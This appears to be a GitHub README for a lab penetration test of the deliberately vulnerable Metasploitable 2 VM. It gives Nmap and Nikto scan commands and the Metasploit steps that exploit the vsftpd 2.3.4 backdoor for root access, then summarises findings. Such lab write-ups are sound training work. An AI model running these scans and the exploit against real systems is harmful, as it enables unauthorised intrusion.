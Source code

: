 # 🛡️ Metasploitable 2 – Vulnerability Assessment & Penetration Testing (VAPT)

This project demonstrates a **full penetration testing workflow** on Metasploitable 2, a deliberately vulnerable VM.  
The goal was to simulate a real-world **Vulnerability Assessment and Penetration Test (VAPT)** and produce a consultancy-style report.

---

## 🔹 Project Roadmap

![Project Roadmap](assets/roadmap_infographic.png)

---

## 🔹 Steps Performed

### 1️⃣ Reconnaissance (Nmap)
- Scanned target IP for open ports and services
```bash
nmap -sV <target-ip> -oN nmap_scan.txt
```

### 2️⃣ Vulnerability Scanning
- Nmap vulnerability scripts
```bash
nmap -sV --script vuln <target-ip> -oN vuln_results.txt
```
- Nikto web scan
```bash
nikto -h http://<target-ip> -output nikto_results.txt
```

### 3️⃣ Exploitation (Metasploit)
- Exploited **vsftpd 2.3.4 backdoor (CVE-2011-2523)**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target-ip>
run
```
- Verified root access with:
```bash
whoami
```

### 4️⃣ Reporting
- Documented findings, CVEs, and remediation
- Delivered a **professional consultancy-style report (PDF)**

---

## 🔹 Deliverables

📄 [Full Report (PDF)](Metasploitable2_Pentest_Report_Final.pdf)  
🖼️ [Roadmap Infographic](assets/roadmap_infographic.png)  
📸 [Proof Screenshots](screenshots)  

---

## 🔹 Tools Used
- Kali Linux  
- Nmap  
- Nikto  
- Metasploit Framework  

---

## 🔹 Key Findings
- **Critical:** FTP backdoor (vsftpd 2.3.4 – CVE-2011-2523) → Remote root access  
- **High:** Outdated Apache 2.2.8 & PHP 5.2.4  
- **Medium:** Missing HTTP security headers  

---

## 🔹 Author
👤 **Gufran Ahmed**  
🔗 [LinkedIn](https://www.linkedin.com/in/gufran-uh/)
